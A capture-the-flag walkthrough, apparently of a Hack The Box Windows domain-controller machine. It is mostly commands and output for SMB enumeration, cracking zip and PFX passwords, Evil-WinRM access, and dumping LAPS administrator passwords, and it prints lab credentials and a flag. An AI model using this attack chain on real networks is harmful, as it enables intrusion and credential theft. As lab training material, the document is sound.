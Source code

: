 ## 概要

## Search
### nmap
- command  
`sudo nmap -sC -sV -T4 10.10.11.152`
- result

<details><summary>summary</summary>
  
<pre>
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -T4 10.10.11.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 22:33 EDT
Nmap scan report for 10.10.11.152
Host is up (0.30s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-07-01 10:34:13Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap
3269/tcp open  globalcatLDAPssl?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h59m57s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-07-01T10:34:50
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.73 seconds
</pre>

</details>

### smbmap
- command
  - -H target
  - -u user_name  
  `smbmap -H 10.10.11.152 -u anonymous`
- result

<details><summary>summary</summary>
<pre>
┌──(kali㉿kali)-[~]
└─$ smbmap -H 10.10.11.152 -u anonymous           
[+] Guest session       IP: 10.10.11.152:445    Name: 10.10.11.152                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        <span style="color:red">Shares                                                  READ ONLY</span>
        SYSVOL                                                  NO ACCESS       Logon server share 

</pre>
</details>

### smbclient
- command
  - -N no-pass
  `smbclient -N \\\\10.10.11.152\\Shares`
- result

<details><summary>summary</summary>

<pre>

┌──(kali㉿kali)-[~]
└─$ smbclient -N \\\\10.10.11.152\\Shares         
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021
c
                6367231 blocks of size 4096. 1258944 blocks available
smb: \> cd HelpDesk\
smb: \HelpDesk\> dir
  .                                   D        0  Mon Oct 25 11:48:42 2021
  ..                                  D        0  Mon Oct 25 11:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 10:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 10:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 10:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 10:57:44 2021

                6367231 blocks of size 4096. 1258072 blocks available
smb: \HelpDesk\> get LAPS_Datasheet.docx
getting file \HelpDesk\LAPS_Datasheet.docx of size 104422 as LAPS_Datasheet.docx (10.7 KiloBytes/sec) (average 10.7 KiloBytes/sec)
smb: \HelpDesk\> get LAPS_OperationsGuide.docx
getting file \HelpDesk\LAPS_OperationsGuide.docx of size 641378 as LAPS_OperationsGuide.docx (69.0 KiloBytes/sec) (average 39.1 KiloBytes/sec)
smb: \HelpDesk\> get LAPS_TechnicalSpecification.docx
getting file \HelpDesk\LAPS_TechnicalSpecification.docx of size 72683 as LAPS_TechnicalSpecification.docx (50.1 KiloBytes/sec) (average 39.8 KiloBytes/sec)
smb: \HelpDesk\> cd ../
smb: \> dir
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021

                6367231 blocks of size 4096. 1230207 blocks available
smb: \> cd Dev
smb: \Dev\> dir
  .                                   D        0  Mon Oct 25 15:40:06 2021
  ..                                  D        0  Mon Oct 25 15:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021

                6367231 blocks of size 4096. 1229718 blocks available
smb: \Dev\> get winrm_backup.zip 
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (1.4 KiloBytes/sec) (average 36.6 KiloBytes/sec)
smb: \Dev\> SMBecho failed (NT_STATUS_CONNECTION_RESET). The connection is disconnected now


</pre>

</details>

### zip2john.
- command  
`zip2john ./winrm_backup.zip > zip.hashes`  
`sudo gunzip /usr/share/wordlists/rockyou.txt.gz`  
`john ./zip.hashes --wordlist=/usr/share/wordlists/rockyou.txt`  

- result

<details><summary>summary</summary>

<pre>

┌──(kali㉿kali)-[~/HTB_dir]
└─$ john ./zip.hashes --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:14 DONE (2023-06-30 22:51) 0.06756g/s 234412p/s 234412c/s 234412C/s surkerior..suppamas
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

┌──(kali㉿kali)-[~/HTB_dir]
└─$ unzip winrm_backup.zip                                   
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: supremelegacy
  inflating: legacyy_dev_auth.pfx    
                                                                                                                                     
┌──(kali㉿kali)-[~/HTB_dir]
└─$ ls
LAPS_Datasheet.docx  LAPS_OperationsGuide.docx  LAPS_TechnicalSpecification.docx  legacyy_dev_auth.pfx  winrm_backup.zip  zip.hashes
                                                                                                                                     
┌──(kali㉿kali)-[~/HTB_dir]
└─$
</pre>

</details>

### CRACK AND READ .PFX FILE
- command
  - pkcs12
    - use .pfx   
`openssl pkcs12 -info -in ./legacyy_dev_auth.pfx`

- result

<details><summary>summary</summary>

<pre>

┌──(kali㉿kali)-[~/HTB_dir]
└─$ openssl pkcs12 -info -in ./legacyy_dev_auth.pfx
Enter Import Password:
MAC: sha1, Iteration 2000
MAC length: 20, salt length: 20
Mac verify error: invalid password?

┌──(kali㉿kali)-[~/Documents]
└─$ git clone https://github.com/crackpkcs12/crackpkcs12.git
Cloning into 'crackpkcs12'...
remote: Enumerating objects: 93, done.
remote: Total 93 (delta 0), reused 0 (delta 0), pack-reused 93
Receiving objects: 100% (93/93), 198.94 KiB | 2.12 MiB/s, done.
Resolving deltas: 100% (37/37), done.

┌──(kali㉿kali)-[~/Documents/crackpkcs12]
└─$ sudo apt install pkg-config         
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done


┌──(kali㉿kali)-[~/Documents/crackpkcs12]
└─$ sudo apt install libssl-dev 
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done

                                                                                                                                     
┌──(kali㉿kali)-[~/Documents/crackpkcs12]
└─$ ./configure                
checking for a BSD-compatible install... /usr/bin/install -c
checking whether build environment is sane... yes
checking for a thread-safe mkdir -p... /usr/bin/mkdir -p
checking for gawk... gawk
checking whether make sets $(MAKE)... yes
checking for gcc... gcc
checking whether the C compiler works... yes
checking for C compiler default output file name... a.out
checking for suffix of executables... 
checking whether we are cross compiling... no
checking for suffix of object files... o
checking whether we are using the GNU C compiler... yes
checking whether gcc accepts -g... yes
checking for gcc option to accept ISO C89... none needed
checking for style of include used by make... GNU
checking dependency style of gcc... gcc3
configure: creating ./config.status
config.status: creating Makefile
config.status: creating src/Makefile
config.status: executing depfiles commands
checking for pkg-config... /usr/bin/pkg-config
checking pkg-config is at least version 0.9.0... yes
checking for DEPS... yes
                                                                                                                                     
┌──(kali㉿kali)-[~/Documents/crackpkcs12]
└─$ make                       
Making all in src
make[1]: Entering directory '/home/kali/Documents/crackpkcs12/src'
gcc -DPACKAGE_NAME=\"\" -DPACKAGE_TARNAME=\"\" -DPACKAGE_VERSION=\"\" -DPACKAGE_STRING=\"\" -DPACKAGE_BUGREPORT=\"\" -DPACKAGE_URL=\"\" -I.     -g -O2 -MT crackpkcs12.o -MD -MP -MF .deps/crackpkcs12.Tpo -c -o crackpkcs12.o crackpkcs12.c
mv -f .deps/crackpkcs12.Tpo .deps/crackpkcs12.Po
gcc  -g -O2   -o crackpkcs12 crackpkcs12.o -lpthread -lcrypto 
make[1]: Leaving directory '/home/kali/Documents/crackpkcs12/src'
make[1]: Entering directory '/home/kali/Documents/crackpkcs12'
make[1]: Nothing to be done for 'all-am'.
make[1]: Leaving directory '/home/kali/Documents/crackpkcs12'
                                                                                                                                     
┌──(kali㉿kali)-[~/Documents/crackpkcs12]
└─$ sudo make install          
Making install in src
make[1]: Entering directory '/home/kali/Documents/crackpkcs12/src'
make[2]: Entering directory '/home/kali/Documents/crackpkcs12/src'
 /usr/bin/mkdir -p '/usr/local/bin'
  /usr/bin/install -c crackpkcs12 '/usr/local/bin'
make[2]: Nothing to be done for 'install-data-am'.
make[2]: Leaving directory '/home/kali/Documents/crackpkcs12/src'
make[1]: Leaving directory '/home/kali/Documents/crackpkcs12/src'
make[1]: Entering directory '/home/kali/Documents/crackpkcs12'
make[2]: Entering directory '/home/kali/Documents/crackpkcs12'
make[2]: Nothing to be done for 'install-exec-am'.
make[2]: Nothing to be done for 'install-data-am'.
make[2]: Leaving directory '/home/kali/Documents/crackpkcs12'
make[1]: Leaving directory '/home/kali/Documents/crackpkcs12'
                                                                                                                                     
</pre>

</details>

### crackpkcs12
- command
`crackpkcs12 -d /usr/share/wordlists/rockyou.txt ./legacyy_dev_auth.pfx`

- result

<details><summary>summary</summary>

<pre>

┌──(kali㉿kali)-[~/HTB_dir]
└─$ crackpkcs12 -d /usr/share/wordlists/rockyou.txt ./legacyy_dev_auth.pfx

Dictionary attack - Starting 2 threads

*********************************************************
Dictionary attack - Thread 1 - Password found: thuglegacy
*********************************************************


┌──(kali㉿kali)-[~/HTB_dir]
└─$ openssl pkcs12 -in ./legacyy_dev_auth.pfx -nocerts -out private.pem -nodes 
Enter Import Password:
                                                                                                                                     
┌──(kali㉿kali)-[~/HTB_dir]
└─$ ls
LAPS_Datasheet.docx        LAPS_TechnicalSpecification.docx  private.pem       zip.hashes
LAPS_OperationsGuide.docx  legacyy_dev_auth.pfx              winrm_backup.zip
                                                                                                                                     
┌──(kali㉿kali)-[~/HTB_dir]
└─$ openssl pkcs12 -in ./legacyy_dev_auth.pfx -out public.pem -clcerts -nokeys
Enter Import Password:
                                                                                                                                     
┌──(kali㉿kali)-[~/HTB_dir]
└─$ ls
LAPS_Datasheet.docx        LAPS_TechnicalSpecification.docx  private.pem  winrm_backup.zip
LAPS_OperationsGuide.docx  legacyy_dev_auth.pfx              public.pem   zip.hashes

</pre>

</details>

## Initial Access
### evil-winrm
- command
`evil-winrm -i 10.10.11.152 -c public.pem -k private.pem -S`

- result

<details><summary>summary</summary>

<pre>

┌──(kali㉿kali)-[~/HTB_dir]
└─$ evil-winrm -i 10.10.11.152 -c public.pem -k private.pem -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                                                   
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> dir
*Evil-WinRM* PS C:\Users\legacyy\Documents> cd ../
*Evil-WinRM* PS C:\Users\legacyy> dir


    Directory: C:\Users\legacyy


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---       10/25/2021   8:25 AM                Desktop
d-r---       10/25/2021   8:22 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos


*Evil-WinRM* PS C:\Users\legacyy> cd Desktop
*Evil-WinRM* PS C:\Users\legacyy\Desktop> dir


    Directory: C:\Users\legacyy\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         7/1/2023   3:16 AM             34 user.txt


*Evil-WinRM* PS C:\Users\legacyy\Desktop> type user.txt
e93896b45e77c0069ff4960135d4d221
*Evil-WinRM* PS C:\Users\legacyy\Desktop> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
The command completed with one or more errors.

*Evil-WinRM* PS C:\Users\legacyy\Desktop> net users /domain

User accounts for \\

-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
The command completed with one or more errors.

*Evil-WinRM* PS C:\Users\legacyy\Desktop> net users svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 12:25:53 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.


</pre>

</details>

### powershell command history
- file path
`C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

- result

<details><summary>summary</summary>

<pre>

*Evil-WinRM* PS C:\Users\legacyy\Desktop> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
*Evil-WinRM* PS C:\Users\legacyy\Desktop> 

</pre>

</details>

### svc_deploy Initial Access
- command
`git clone https://github.com/kfosaaen/Get-LAPSPasswords.git`
`evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S -r timelapse -s /home/kali/Documents/Get-LAPSPasswords`

- result

<details><summary>summary</summary>

<pre>

┌──(kali㉿kali)-[~/HTB_dir]
└─$ evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S -r timelapse -s /home/kali/Documents/Get-LAPSPasswords
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                                                   
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Warning: Password is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-LAPSPasswords.ps1
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-LAPSPasswords


Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : 2-[7;Yh%,-Q4%tTt9z8AH9Y@
Expiration : 7/6/2023 3:16:24 AM

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : 2-[7;Yh%,-Q4%tTt9z8AH9Y@
Expiration : 7/6/2023 3:16:24 AM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : 2-[7;Yh%,-Q4%tTt9z8AH9Y@
Expiration : 7/6/2023 3:16:24 AM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : 2-[7;Yh%,-Q4%tTt9z8AH9Y@
Expiration : 7/6/2023 3:16:24 AM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA


</pre>

</details>

### administrator Initial Acess
- command
`evil-winrm -i 10.10.11.152 -u administrator -p '2-[7;Yh%,-Q4%tTt9z8AH9Y@' -S -r timelapse`

- result

<details><summary>summary</summary>

<pre>

┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.11.152 -u administrator -p '2-[7;Yh%,-Q4%tTt9z8AH9Y@' -S -r timelapse
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                                                   
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Warning: Password is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> dir
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../
*Evil-WinRM* PS C:\Users\Administrator> ls


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---       10/23/2021  11:27 AM                3D Objects
d-r---       10/23/2021  11:27 AM                Contacts
d-r---         3/3/2022   7:48 PM                Desktop
d-r---       10/23/2021  12:22 PM                Documents
d-r---       10/25/2021   2:06 PM                Downloads
d-r---       10/23/2021  11:27 AM                Favorites
d-r---       10/23/2021  11:28 AM                Links
d-r---       10/23/2021  11:27 AM                Music
d-r---       10/23/2021  11:27 AM                Pictures
d-r---       10/23/2021  11:27 AM                Saved Games
d-r---       10/23/2021  11:27 AM                Searches
d-r---       10/23/2021  11:27 AM                Videos


*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cd C:\Users\TRX\Desktop

*Evil-WinRM* PS C:\Users\TRX\Desktop> 
*Evil-WinRM* PS C:\Users\TRX\Desktop> type root.txt

</pre>

</details>
